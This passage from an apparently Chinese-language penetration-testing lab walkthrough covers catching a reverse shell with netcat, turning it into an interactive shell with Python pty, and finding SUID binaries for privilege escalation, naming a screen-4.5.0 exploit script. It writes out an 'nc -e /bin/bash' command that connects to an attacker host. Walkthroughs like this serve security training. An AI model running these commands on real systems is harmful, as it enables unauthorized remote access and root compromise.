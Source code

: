 ```
nc -lnvp 55555 

```

<img src="https://img-blog.csdnimg.cn/dff73bdc0c97446d9a7f5b916a1247f2.png" alt="在这里插入图片描述">

#### 2.靶机执行shell反弹命令

```
nc -e /bin/bash 192.168.233.130 55555

```

<img src="https://img-blog.csdnimg.cn/e89204e5d1ab428abcc355f5ba23e53e.png" alt="在这里插入图片描述">

#### 3.反弹shell成功

>  
 进入kali，发现反弹shell成功，执行id命令 这个shell有些不方便，需要进入交互式shell 


<img src="https://img-blog.csdnimg.cn/3efbb86461b04937bb1fd569fe23b396.png" alt="在这里插入图片描述">

#### 4.进入交互式shell

>  
 这里使用python进入交互式shell，命令如下 


```
python -c "import pty;pty.spawn('/bin/bash')"

```

>  
 成功进入交互式shell 


<img src="https://img-blog.csdnimg.cn/13e65e826f6542059685224af7d0d303.png" alt="在这里插入图片描述">

### 11、suid提权

>  
 使用find命令，查找具有suid权限的命令 


#### 1.发现screen-4.5.0

>  
 发现screen-4.5.0，使用41145.sh脚本提权 GNU Screen是一款由GNU计划开发的用于命令行终端切换的自由软件。用户可以通过该软件同时连接多个本地或远程的命令行会话，并在其间自由切换。 GNU Screen可以看作是窗口管理器的命令行界面版本。它提供了统一的管理多个会话的界面和相应的功能。 下面两条命令都行 


```
find / -user root -perm -4000 -print 2&gt;/dev/null 
find / -perm -u=s -type f 2&gt;/dev/null

```
